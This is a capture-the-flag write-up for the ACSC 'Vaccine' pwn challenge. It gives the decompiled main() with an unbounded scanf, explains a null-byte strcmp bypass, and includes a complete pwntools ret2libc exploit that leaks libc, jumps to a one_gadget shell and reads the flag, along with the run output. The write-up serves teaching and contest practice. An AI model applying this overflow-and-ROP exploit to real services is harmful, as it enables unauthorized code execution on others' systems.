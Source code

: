 # Vaccine

## Information
**Category** | **Points** 
--- | --- 
Warmup + Pwn | 50 

## Description:

Give me the correct vaccine to view my secret

## Solution

We first need to build a docker from the Dockerfile to get the right version of libc for our binary.

Analyse the program, i notice that there’s only the main() function.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  size_t v3; // rbx
  char v5[112]; // [rsp+10h] [rbp-170h] BYREF
  char s2[112]; // [rsp+80h] [rbp-100h] BYREF
  char s[104]; // [rsp+F0h] [rbp-90h] BYREF
  FILE *v8; // [rsp+158h] [rbp-28h]
  FILE *stream; // [rsp+160h] [rbp-20h]
  int i; // [rsp+16Ch] [rbp-14h]

  stream = fopen("RNA.txt", "r");
  fgets(s, 100, stream);
  printf("Give me vaccine: ");
  fflush(_bss_start);
  __isoc99_scanf("%s", s2);
  for ( i = 0; ; ++i )
  {
    v3 = i;
    if ( v3 >= strlen(s2) )
      break;
    if ( s2[i] != 65 && s2[i] != 67 && s2[i] != 71 && s2[i] != 84 )
    {
      puts("Only DNA codes allowed!");
      exit(0);
    }
  }
  if ( strcmp(s, s2) )
  {
    puts("Oops.. Try again later");
    exit(0);
  }
  puts("Congrats! You give the correct vaccine!");
  v8 = fopen("secret.txt", "r");
  fgets(v5, 100, v8);
  printf("Here is your reward: %s\n", v5);
  return 0;
}
```

It’s a simple buffer overflow exploit. To bypass the strcmp() we only need to input a bunch of NULL char (0x00). However,the ‘secret.txt’ file doesn’t contain the flag.

Now simply just take control of the shell by ret2libc technique since we already have the right libc version.

```py
from pwn import *

exe = ELF('./vaccine')
libc = ELF('./libc-2.31.so')

#io = remote('vaccine.chal.ctf.acsc.asia', 1337)
io = exe.process()
#gdb.attach(io, api=True)
#context.log_level = 'debug'

# Gadgets:
puts = 0x0000000000084420 # Offset that we took from the libc
pop_rdi = 0x0000000000401443
ret = 0x000000000040101a
main = 0x0000000000401236

# Leaking libc
io.recvuntil(b'vaccine:')
payload = b'\0'*264
payload += p64(pop_rdi) + p64(exe.got['puts'])
payload += p64(exe.plt['puts'])
payload += p64(main)
io.sendline(payload)
print(io.recvuntil(b' reward: '))
print(io.recvuntil(b'\n'))
leak_puts = int.from_bytes(io.recvline(keepends=False), byteorder='little')
print(hex(leak_puts))
libc.address = leak_puts - puts
print(f'Libc base: {hex(libc.address)}')

one_gadget = 0xe3b01
payload = b'\0'*264
payload += p64(libc.address + one_gadget)
io.sendline(payload)
time.sleep(0.5)
io.sendline(b'cat flag.txt')
io.interactive()
```

Run the script in remote and we will get:

```sh
[*] '/mnt/d/ctf/pwn/acsc/vaccine/bin/vaccine'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/mnt/d/ctf/pwn/acsc/vaccine/bin/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vaccine.chal.ctf.acsc.asia on port 1337: Done
b' Congrats! You give the correct vaccine!\nHere is your reward: '
b'your flag is in another castle\n'
0x7f62767bf420
Libc base: 0x7f627673b000
[*] Switching to interactive mode
Give me vaccine: ACSC{RoP_3@zy_Pe4$y}
```

> Flag is: ACSC{RoP_3@zy_Pe4$y}

